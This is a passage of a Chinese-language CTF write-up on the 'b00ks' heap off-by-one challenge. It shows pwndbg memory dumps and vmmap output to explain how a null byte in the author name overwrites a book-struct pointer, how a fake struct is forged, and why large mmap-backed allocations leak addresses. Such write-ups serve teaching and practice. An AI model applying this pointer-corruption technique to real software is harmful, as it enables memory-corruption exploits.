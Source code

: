 -   0x555555757760：book1_id
-   0x555555757768：book1_name：0x0000555555757670
-   0x555555757770：book1_desc：0x0000555555757690

book1的结构体指针低位能够覆盖作者名的\x00，那么作者名的\x00可以覆盖结构体指针的低位呢？程序有修改作者名的功能，输入的作者名依然会放在off_202018中。book1结构体的起始地址为0x0000555555757760，那么被覆盖之后会变为0x0000555555757700.

作者名处，其中0x555555756060处已变为0x0000555555757700。

```
pwndbg> x/10gx 0x555555756040
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161
0x555555756060:	0x0000555555757700	0x0000555555776090
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

此时程序就会去0x0000555555757700的位置寻找结构体，

<img src="D:\Desktop\PWN1\堆\堆溢出\堆中的off-by-one.assets\image-20210320195506471.png" alt="image-20210320195506471" style="zoom:50%;" />

#### 4.伪造结构体并泄露book2_name,book2_desc

下面解释为什么book2的书名大小和书名类别大小设置为135168：

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/yutao/Desktop/b00ks
    0x555555755000     0x555555756000 r--p     1000 1000   /home/yutao/Desktop/b00ks
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/yutao/Desktop/b00ks
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7f9c000     0x7ffff7fe2000 rw-p    46000 0      
    0x7ffff7ff8000     0x7ffff7ffb000 r--p     3000 0      [vvar]
    0x7ffff7ffb000     0x7ffff7ffc000 r-xp     1000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```

>    0x7ffff7f9c000     0x7ffff7fe2000 rw-p    46000 0 
>   为mmap扩展的堆空间

根据网上其他wp说法，只有接近或者超过top_chunk的size大小的时候才会使用mmap进行扩展

如果vmmap后有mmap，就可以判断输入多大的数值了。**如果像上图一样并没有mmap的标识，可以查看是否存在紫色不断变换空间大小的data段。**
